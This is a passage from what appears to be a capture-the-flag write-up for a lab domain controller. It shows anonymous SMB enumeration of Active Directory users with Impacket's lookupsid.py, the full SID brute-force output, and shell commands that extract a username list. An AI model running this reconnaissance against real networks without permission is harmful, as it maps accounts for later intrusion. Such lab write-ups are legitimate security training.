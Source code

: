 ### Enumerate SMB users:

According to the result, we have a read access to `IPC$` without authentication. Now we able to list the domain users as `anonymous` via `lookupsid.py` in `Impacket`:

```
┌──(impacket-env)─(root💀nam)-[~/ctf/thm/ctf/VulnNet_Roasted]
└─# python3 /opt/impacket/examples/lookupsid.py anonymous@$IP | tee user.txt
Password:
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.24.127
[*] StringBinding ncacn_np:10.10.24.127[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

Isolate users (`SidTypeUser`):

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet_Roasted]
└─# grep SidTypeUser user.txt | awk '{print $2}' | cut -d "\\" -f2 > splited_user.txt
                                                                                                                               
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet_Roasted]
└─# cat splited_user.txt 
Administrator
Guest
krbtgt
WIN-2BO8M1OE1M1$
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```
